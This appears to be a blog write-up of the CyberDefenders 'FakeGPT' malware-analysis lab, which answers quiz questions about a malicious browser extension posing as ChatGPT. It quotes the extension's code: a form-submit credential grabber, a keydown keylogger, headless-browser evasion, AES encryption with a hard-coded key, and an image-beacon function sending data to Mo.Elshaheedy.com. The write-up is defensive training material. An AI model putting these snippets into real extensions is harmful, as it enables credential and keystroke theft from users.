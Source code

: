 ```yaml
---
author: Ricard Alcaraz
title: FakeGPT Lab - CyberDefenders
tags:
  - Cybersecurity
  - Blue Team
  - CyberDefenders
  - Malware Analysis
languages:
  - malwareanalysis
image:
  url: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
  alt: fake gpt image
description: My notes about FakeGPT Lab - CyberDefenders
pubDate: 2025-08-27T17:47:00.000+02:00
heroImage: https://cyberdefenders.org/media/terraform/FakeGPT/FakeGPT.webp
---
```

## Scenario
Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

Your task is to perform a thorough analysis of this extension identify its malicious components.

## Documents Provided
- app.js
- crypto.js
- img.GIF
- loader.js
- manifest.json
- ui.html

## Q1: Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

We have several files to check, the ones I looked at first where the ones that could potentially have some sort of obscure target URLs.
Looking at app.js I found this:
```javascript
    const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
When I saw the "==" at the end of the string I thought about Base64, I used CyberChef and the result was `www.facebook.com`, so we just found the encoding method.

**Answer:**

`Base64` 

## Q2: Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

I found it in the previous question by decoding the Base64 string.

**Answer:**

`www.facebook.com`

 ## Q3: Which type of HTML element is utilized by the extension to send stolen data?

Here I was looking for for something related to sending data, it was not hard since the functions have a good naming. We can take a look at the function `sendToServer` and we will find the element used to send data.
```javascript
    function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }
```

**Answer:**

`<img>`

## Q4: What is the first specific condition in the code that triggers the extension to deactivate itself?

Now we should check the other `.js` files, because `app.js` doesn't seem to have anything related. Checking `loader.js` we can see again a little help from the developer.

```javascript
    if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
        alert("Virtual environment detected. Extension will disable itself.");
        chrome.runtime.onMessage.addListener(() => { return false; });
    }
```
This alert explains that it will disable itself, if the condition is fullfilled. The condition that has to be fullfilled is one or the other separated by the or "||", in this case the question asks for the first condition.

**Answer:**

`navigator.plugins.length === 0`

## Q5: Which event does the extension capture to track user input submitted through forms?

I had to comeback to `app.js`, now looking for an event and a form. And I found this part:
```javascript
    document.addEventListener('submit', function(event) {
        let form = event.target;
        let formData = new FormData(form);
        let username = formData.get('username') || formData.get('email');
        let password = formData.get('password');
```
The event that the extension captures is `submit` to track the user input through the form, that has two inputs, an user (or email) and a password, and if both are filled it will call the function `exfiltrateCredentials` with both parameters.

**Answer:**

`submit`

## Q6: Which API or method does the extension use to capture and monitor user keystrokes?

In the same file `app.js` just after the section of the code I previously mentioned we can see another event capture:
```javascript
    document.addEventListener('keydown', function(event) {
        var key = event.key;
        exfiltrateData('keystroke', key);
    });
```
In this case a `keydown` event that calls to the function `exfiltrateData`.

**Answer:**

`keydown`

## Q7: What is the domain where the extension transmits the exfiltrated data?

We already know this information from the question **Q3** where I shared the piece of code of the function `sendToServer`.

**Answer:**

`Mo.Elshaheedy.com`

## Q8: Which function in the code is used to exfiltrate user credentials, including the username and password?

Also I mentioned this function in the **Q5** so coming back to that piece of code will give us the information, care with the final ";" which in JS is not needed but it is for the answer.

**Answer:**

`exfiltrateCredentials(username, password);`

## Q9: Which encryption algorithm is applied to secure the data before sending?

Now, we should check for anything related to encryption algorithms, in the same file we can see a function with the name `encryptPayload` which seems related to the question, taking a look at it it uses the library `CryptoJS`, and now we can check where the `.encrypt()` is used. In this case we can see this:
```javascript
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```
So the encryption algorithm is AES, and also we can see that is using custom key and IV, where the key is `SuperSecretKey123` and a randomly generated IV.

**Answer:**

`AES`

## Q10: What does the extension access to store or manipulate session-related data and authentication information?

We have to take a look to another file to get this one, in this case it's interesting to take a look at `manifest.json` in this configuration file we can see a parameter about the `permissions`:
```json
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage",
    "webRequest",
    "webRequestBlocking",
    "cookies"
  ]
```

And one that seems related to the question is the value `cookies` which is a session-related data and authentication information, so this is the answer.

**Answer:**

`cookies`

